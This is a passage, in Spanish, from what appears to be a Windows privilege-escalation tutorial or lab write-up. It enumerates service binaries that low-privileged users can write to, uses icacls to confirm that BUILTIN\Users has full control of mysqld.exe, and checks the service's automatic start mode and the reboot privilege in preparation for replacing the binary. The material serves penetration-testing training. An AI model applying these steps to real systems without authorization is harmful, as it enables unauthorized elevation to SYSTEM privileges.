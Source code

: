 ```
ModifiableFile                  : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'GammaService'
CanRestart                      : False
Name                            : GammaService

ServiceName                     : mysql
Path                            : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
ModifiableFile                  : C:\xampp\mysql\bin\mysqld.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'mysql'
CanRestart                      : False
Name                            : mysql
```

Vemos que de todos los servicios, sólo mysql tiene permisos de escritura sobre un grupo de usuarios del que nosotros formamos parte. Para verificarlo podemos explorar manualmente con icacls los permisos del binario:

```
PS C:\> icacls C:\xampp\mysql\bin\mysqld.exe
C:\xampp\mysql\bin\mysqld.exe BUILTIN\Administrators:(F)
                              NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Users:(F)

Successfully processed 1 files; Failed processing 0 files

PS C:\> whoami /groups | findstr Users
[...]
BUILTIN\Users                          Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
[...]
```

No tenemos permisos para reiniciarlo pero tiene un modo de inicio automático:

```
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

Name  StartMode
----  ---------
mysql Auto
```

Y nosotros podemos reiniciar la máquina:

```
PS C:\Users\dave> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
[...]
SeShutdownPrivilege           Shut down the system                 Disabled
[...]
```
